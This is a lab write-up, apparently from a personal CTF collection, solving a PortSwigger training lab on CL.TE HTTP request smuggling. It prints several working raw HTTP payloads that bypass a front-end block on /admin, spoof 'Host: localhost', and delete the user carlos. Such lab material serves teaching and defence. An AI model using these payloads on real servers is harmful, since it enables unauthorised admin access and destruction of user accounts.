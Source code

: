 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability | Feb 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te), you'll learn: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145613.png)

**According to the lab's background, the admin panel is at `/admin`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145651.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145745.png)

However, when we reach there, the application blocks us from accessing to it.

How can we bypass that?

Now, we can send that request to Burp Suite's Repeater, and **test HTTP request smuggling**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145823.png)

**First, we need to change the request method to POST:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145854.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201145859.png)

Then, we can test is it vulnerable to **CL.TE** (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or **TE.CL** (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header) HTTP request smuggling.

**To test CL.TE, we can:**

- Send an attack POST request to `/`:

```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Foo: x
```

**This request will smuggle a GET request to `/admin`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201150813.png)

- Then, send a normal GET request to `/`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201150852.png)

We successfully bypass the access block!

However, it said: "Admin interface only available to local users".

**Luckly, we can still bypass this by supplying another HTTP header called `Host`:**
```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Foo: x
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152216.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152221.png)

Hmm... "Duplicate header names are not allowed".

**To bypass that, we can smuggle an empty GET parameter:**
```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Length: 15

bypasspls=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152444.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152503.png)

Nice!! We successfully fully bypassed the access block!

**Let's delete user `carlos` by smuggling a request:**
```http
POST / HTTP/1.1
Host: 0a2f009403af3669c1fc45c300e100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Transfer-Encoding: chunked

0

GET /admin/delete HTTP/1.1
Host: localhost
Content-Length: 15

username=carlos&bypasspls=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152702.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-6/images/Pasted%20image%2020230201152715.png)

We successfully deleted user `carlos`!

# What we've learned:

1. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability